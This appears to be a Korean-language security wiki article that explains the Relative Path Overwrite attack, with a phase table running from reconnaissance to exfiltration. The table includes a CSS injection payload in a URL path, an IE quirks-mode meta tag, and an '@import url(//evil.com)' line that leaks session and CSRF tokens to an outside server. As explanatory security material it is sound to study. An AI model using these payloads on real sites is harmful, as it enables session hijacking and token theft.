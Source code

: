 ```yaml
---
title: Relative Path Overwrite Attack
description: 
published: true
date: 2025-07-31T13:58:44.429Z
tags: credential harvesting, relative path discovery, path resolution divergence, quirks mode forcing, visual confirmation via css injection, arbitrary css execution, cross‑site scripting (xss)
editor: markdown
dateCreated: 2025-07-25T10:21:25.470Z
---
```


# Relative Path Overwrite Attack

## 개요

“Relative Path Overwrite Attack”은 HTML 문서에서 참조되는 상대 경로 자원(예: CSS, JS 등)의 해석 기준이 브라우저와 서버 사이에서 불일치하는 점을 악용한다. 공격자는 요청 경로를 조작해 상대 경로의 base path가 의도한 것과 달라지도록 유도하고, 서버가 이 조작된 경로에 대해 HTML 문서를 반환하도록 만들어 브라우저가 해당 문서를 스타일시트 등으로 잘못 해석하게 만든다. 이는 리소스를 식별하는 상대 경로에 대한 해석 기준이 구성 요소마다 달라 발생하며, 결과적으로 CSS 인젝션, 정보 유출, 스크립트 실행으로 이어질 수 있다.

## 분류

> 메타데이터 해석 불일치 (Metadata Interpretation Gap)
> → 리소스 식별자 해석 불일치 (Resource Identifier Mismatch)
> → Relative Path Overwrite Attack

## 절차

| Phase          | Description                                                                                                                                                                |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Reconnaissance | 웹 앱 안에서 href="styles/…"처럼 절대 경로(/로 시작)가 아닌 링크를 수집한다. Burp Suite의 Passive Scanner나 수동 탐색으로 후보 URL을 목록화한다.                                                                   |
| Divergence     | 취약한 URL 뒤에 가짜 디렉터리를 붙인다. 예를 들어 /viewforum.php/abc/def?f=2 에서 브라우저는  abc 아래의 'def'라는 파일로 착각하지만 서버는 여전히 /viewforum.php를 실행해서 원본 HTML을 돌려준다.                                  |
| Obfuscation    | 브라우저가 HTML을 CSS로 가져올 수 있게 한다. 이미 구식 DOCTYPE이면 그대로 이용하나, 최신 DOCTYPE이면 페이지를 iframe에 넣고 `<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7">`로 IE Quirks Mode를 상속시킨다. |
| Validation     | 경로에 URL 인코딩된 줄바꿈과 CSS를 삽입한다. 예를 들어 `/search.php/%0A{}*{color:red;}///`를 삽입했을 때 iframe 안 텍스트가 빨갛게 바뀐다면 공격의 성공을 검증할 수 있다.                                                    |
| Exploitation   | 테스트 CSS를 교체해서 공격을 확장한다. `@import url(//evil.com);`, IE `expression()` 등으로 세션 토큰·CSRF 토큰을 추출한다.                                                                             |
| Exfiltration   | `@import` 요청이 보내는 Referer 헤더에 세션 ID가 포함되도록 유도해 외부 서버에서 수집하거나 `expression()`이 추출한 값을 URL 매개변수(GET 파라미터)에 실어 외부 서버로 전송하도록 한다.                                                |

<div style="text-align: left;">
  <img
    src="/relative_path_overwrite_attack.png"
    alt="Relative Path Overwrite Attack 다이어그램"
    width="1000"
    style="display: block;
           margin: 0 0 1em 0;
           height: auto;"
  />
</div>
